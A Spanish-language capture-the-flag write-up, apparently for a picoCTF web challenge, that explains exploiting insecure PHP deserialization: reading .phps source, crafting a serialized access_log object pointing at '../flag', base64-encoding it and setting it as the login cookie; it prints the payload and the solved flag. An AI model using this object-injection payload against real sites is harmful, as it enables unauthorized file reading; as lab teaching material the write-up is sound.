







# Some Assembly Required 2


## Descripción
Try to recover the flag stored on this website [http://mercury.picoctf.net:3449/](http://mercury.picoctf.net:3449/)

## Resolucion
Para este CTf nos hará falta la pista (Hint) de la localización de la flag.

Nos dan un enlace a la siguiente página:



En ella tenemos un formulario de login. Realizaremos las siguientes comprobaciones:
- Analizar el código HTML: No hay información útil.
- Analizar style.css: No hay información útil.
- Analizar .htaccess y .htpasswd: No existen, no es un servidor apache.
- Analizar robots.txt: Nos encontramos lo siguiente:



Se pide a los motores de búsqueda que no indexen '/admin.phps'. Si entramos en [view-source:http://mercury.picoctf.net:3449/admin.phps](view-source:http://mercury.picoctf.net:3449/admin.phps) nos dará un error 404, pero la extensión de este archivo es una pista.

Cuando se usa php el servidor interpreta el código php y devuelve el resultado.
Con phps, el servidor devuelve el código fuente (source) de el archivo php.

Con ello podemos ver el código de index.php. accediendo a [view-source:http://mercury.picoctf.net:3449/index.phps](view-source:http://mercury.picoctf.net:3449/index.phps):

```
<?php
require_once("cookie.php");

if(isset($_POST["user"]) && isset($_POST["pass"])){
	$con = new SQLite3("../users.db");
	$username = $_POST["user"];
	$password = $_POST["pass"];
	$perm_res = new permissions($username, $password);
	if ($perm_res->is_guest() || $perm_res->is_admin()) {
		setcookie("login", urlencode(base64_encode(serialize($perm_res))), time() + (86400 * 30), "/");
		header("Location: authentication.php");
		die();
	} else {
		$msg = '<h6 class="text-center" style="color:red">Invalid Login.</h6>';
	}
}
?>
```

Vemos que se referencian dos archivos:
- cookie.php
- authentication.php

El código realiza lo siguiente:
1. Obtiene del formulario el usuario y contraseña y crea un objeto de la clase permissions con ellos.
2. Si el objeto devuelve true con su función is_guest() o is_admin() se crea una cookie llamada login.
2. 1. Esta cookie se forma serializando el objeto $perm_res, codificándolo como base 64 y codificándolo como URL.
2. 2. Tras esto se redirige al usuario a authentication.php
3. Si el if no se cumple, se imprime el mensaje de error.

Si entramos en [http://mercury.picoctf.net:3449/authentication.php](http://mercury.picoctf.net:3449/authentication.php) obtendremos lo siguiente:



En [view-source:http://mercury.picoctf.net:3449/authentication.phps](view-source:http://mercury.picoctf.net:3449/authentication.phps) encontraremos el siguiente código fuente:

```
<?php

class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}

	function __toString() {
		return $this->read_log();
	}

	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}

require_once("cookie.php");
if(isset($perm) && $perm->is_admin()){
	$msg = "Welcome admin";
	$log = new access_log("access.log");
	$log->append_to_log("Logged in at ".date("Y-m-d")."\n");
} else {
	$msg = "Welcome guest";
}
?>
```

Por último, tenemos el código fuente de cookie.phps en la url [view-source:http://mercury.picoctf.net:3449/cookie.phps](view-source:http://mercury.picoctf.net:3449/cookie.phps):

```
<?php
session_start();

class permissions
{
	public $username;
	public $password;

	function __construct($u, $p) {
		$this->username = $u;
		$this->password = $p;
	}

	function __toString() {
		return $u.$p;
	}

	function is_guest() {
		$guest = false;

		$con = new SQLite3("../users.db");
		$username = $this->username;
		$password = $this->password;
		$stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
		$stm->bindValue(1, $username, SQLITE3_TEXT);
		$stm->bindValue(2, $password, SQLITE3_TEXT);
		$res = $stm->execute();
		$rest = $res->fetchArray();
		if($rest["username"]) {
			if ($rest["admin"] != 1) {
				$guest = true;
			}
		}
		return $guest;
	}

        function is_admin() {
                $admin = false;

                $con = new SQLite3("../users.db");
                $username = $this->username;
                $password = $this->password;
                $stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
                $stm->bindValue(1, $username, SQLITE3_TEXT);
                $stm->bindValue(2, $password, SQLITE3_TEXT);
                $res = $stm->execute();
                $rest = $res->fetchArray();
                if($rest["username"]) {
                        if ($rest["admin"] == 1) {
                                $admin = true;
                        }
                }
                return $admin;
        }
}

if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}

?>
```

En este código, vemos toda la información del objeto permissions que comprueba el if del index.php.

Vemos que se comprueba si en el navegador existe una cookie llamada 'login', y se realizan las comprobaciones de las funciones is_guest() e is_admin() con ella.

Sin embargo, no se comprueba correctamente el saneamiento de la cookie, es decir, si alguna de las funciones is_guest() o is_admin() tuvieran un error, se entraría en el catch y se imrpimiría la variable $perm.

Para aprovechar esto, en authentication.php tenemos la función file_get_contents(), que imprime el contenido de un archivo, podemos usar esto para acceder a '../flag'.

Entonces, tenemos que crear una cookie con la siguiente información:

1. Tiene que ser un objeto php serializado, en concreto access_log
2. cookie.php almacenará en $perm todo el objeto deserializado.
3. Dará error en las funciones is_guest() e is_admin()
4. Al ser impresa por el catch, se llamará a __toString() del access_log, que a si vez llama a read_log(), que llama a file_get_contents() de $log_file (atributo de access_log)
5. Para poner en $log_file la ruta de la flag, será tan sencillo como llamar a su constructor __construct(), que hará esto automáticamente.

Acudiremos a un interpretador de php online, como por ejemplo [https://www.programiz.com/php/online-compiler/](https://www.programiz.com/php/online-compiler/) e introduciremos el siguiente código:

```
<?php
class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}

	function __toString() {
		return $this->read_log();
	}

	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}

if(isset($perm) && $perm->is_admin()){
	$msg = "Welcome admin";
	$log = new access_log("access.log");
	$log->append_to_log("Logged in at ".date("Y-m-d")."\n");
} else {
	$msg = "Welcome guest";
}
echo(serialize(new access_log("../flag")))
?>
```

El código es la clase access_log, eliminando la dependencia a cookie.php (require_once("cookie.php");) y añadiendo echo(serialize(new access_log("../flag"))) para que se nos imprima por pantalla el objeto serializado.

Tendremos que acceder a [http://mercury.picoctf.net:3449/authentication.php](http://mercury.picoctf.net:3449/authentication.php) y crear una cookie llamada 'login' con la siguiente información:



Obtendremos lo siguiente:

```
O:10:"access_log":1:{s:8:"log_file";s:7:"../flag";}
```

Como a la hora de crear la variable $perm se descodifica de base64, recurriremos a [Cybercheff](https://cyberchef.org/) para codificarla.



Obtenemos entonces la siguiente cookie:

```
TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9
```

Vamos al navegador y creamos la cookie en la url [http://mercury.picoctf.net:3449/authentication.php](http://mercury.picoctf.net:3449/authentication.php) con el nombre 'login' y el valor proporcionado por cybercheff. Al refrescar la página veremos lo siguiente:



Obteniendo así la flag: 'picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_b4e3f8b1}'.